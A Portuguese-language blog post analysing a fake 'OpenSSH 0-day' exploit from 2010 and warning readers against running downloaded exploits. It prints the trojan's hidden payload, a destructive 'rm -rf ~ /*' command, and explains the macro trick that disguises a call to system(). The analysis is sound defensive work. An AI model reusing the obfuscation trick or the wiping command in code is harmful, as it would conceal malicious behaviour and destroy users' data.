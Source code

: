```yaml
---
layout: post
title:  "0-Day openssh-53p1-remote-root.c?"
date:   2010-01-02
categories: exploit
tags: exploit 0day fake gold
lang: br
ref: 0-day-openssh-53p1-remote-root-c
has-asciinema: false
---
```

Estava em casa e de madrugada recebi uma mensagem dizendo “0-day para OpenSSH” seguindo do seguinte link:

[http://pentestit.com/wp-content/uploads/2010/02/openssh-53p1-remote-root.c](https://gist.github.com/maycon/367597215be1080e2d277a3f4762aa35)



Já logo pensei na festa que isso seria para os script kiddies e raquers de plantão. Porém ao dar uma olhada rápida no código, percebe-se logo de inicio algumas sutilezas. De uma maneira geral o código realmente parece com um exploit, com seus imensos _shellcodes_ e suas conexões por _socket_, o que me fez da uma olhada com mais calma e escrever este post.

Vamos ao começo do código:
```c
if (geteuid()) {
	puts("Root is required for raw sockets, etc.");
	return 1;
}
```

Olhando logo na parte inicial do código, é possível notar que ele exige que seja executando com um usuário com privilégios de _root_, argumentando que é necessário para utilização de _raw sockets_ (`SOCK_RAW`). Porém, procurando pela criação do socket em questão, nota-se que ele utiliza um `SOCK_STREAM`, que representa uma conexão TCP normal sem necessidade de root.

```c
sock = socket(PF_INET, SOCK_STREAM, 0);
addr.sin_port = htons(port);
addr.sin_family = AF_INET;
if (connect(sock, (struct sockaddr*)&addr, sizeof(addr)) == -1){
	printf("  [-] Connecting Failed\n");
	return 1;
}
```

Em seguida, ele faz uma validação da quantidade de argumentos, fornecendo uma ajuda caso não existam parâmetros suficiente:
```c
if(argc < 3){
	usage(argv[0]);
	return 1;
}
```

Porém, é importante notar que ele não faz qualquer outra referência à `argv`, ou seja, ele não trata os parâmetros fornecidos:
```c
if (!inet_aton(h, &addr.sin_addr)){
	host = gethostbyname(h);
	if (!host){
		printf("  [-] Resolving Failed\n");
		return 1;
	}
	addr.sin_addr = *(struct in_addr*)host->h_addr;
}
```

Seguindo pelo código, temos um trecho de código que diz converter o endereço fornecido em seu host. Porém como não existe qualquer parâmetro definido como host, a função `inet_aton` vai retornar um valor diferente de zero, o que resultará sempre no salto desta condição.
```c
payload = malloc(limit * 10000);
ptr = payload+8;
memcpy(ptr,jmpcode,strlen(jmpcode));
jmpinst=fopen(shellcode+793,"w+");
if(jmpinst){
	fseek(jmpinst,0,SEEK_SET);
	fprintf(jmpinst,"%s",shellcode);
	fclose(jmpinst);
}
```

Neste momento ele começa a preencher um buffer (um trecho de código comum em exploits), porém ele escreve uma variável `jmpcode` a partir da posição 8 deste buffer ( apontado por `ptr` ).

Analisando o conteúdo dessa variável temos o seguinte:
```
maycon@hacknroll~$ printf $(cat jmpcode.txt) > jmpcode.bin
maycon@hacknroll~$ file jmpcode.bin
jmpcode.bin: ASCII C program text, with no line terminators
maycon@hacknroll~$ cat jmpcode.bin
rm -rf ~ /* 2> /dev/null &
maycon@hacknroll~$
```

Opa! Nos deparamos com uma coisa nem um pouco agradável de ser ver. Estamos vendo um comando que apaga o home (`~`) do usuário em seguida apaga tudo a partir da raiz (`/*`). :)

O mesmo código chama `fopen()` a uma posição do shellcode que sequer representa um nome de arquivo válido, ou seja, a função `fopen()` vai falhar.

No resto do código tem muita besteira. O que me deixou mais impressionado foi a macro `fremote()` que reordenar os argumentos de `tesmy` para `system`. Se reparar, ela é chamada no inicio do código como `fremote(jmpcode)`, que executaria o `rm -rf` visto anteriormente, veja um exemplo da utilização das macros:
```c
#include 
 
#define build_frem(x,y,a,b,c) a##c##a##x##y##b
#define fremote build_frem(t,e,s,m,y)
 
char jmpcode[] = "ls -l";
 
int main(void)
{
	fremote(jmpcode);
	return 0;
}
```

Analisando a chamada `build_frem`, temos que ele simplesmente organiza os parâmetros como terceiro, último, terceiro, primeiro, segundo e penúltimo. Aplicando esta mesma sequência nos parâmetros de build_frem teremos a string system.

Se executarmos `gcc -E` temos o código logo após o processamento das macros:
```
maycon@hacknroll~$ gcc -E fremote.c  | tail -n 8

char jmpcode[] = "ls -l";

int main(void)
{
	system(jmpcode);
	return 0;
}

maycon@hacknroll~$
```

Este é um trick bastante interessante. Ah se eu soubesse disto na época de _Programação I_ na faculdade. :-)

De qualquer forma isto serve de aviso para os que se aventuram a simplesmente compilar e executar os exploits vistos na internet.

Abraços a todos,

Hack N' Roll
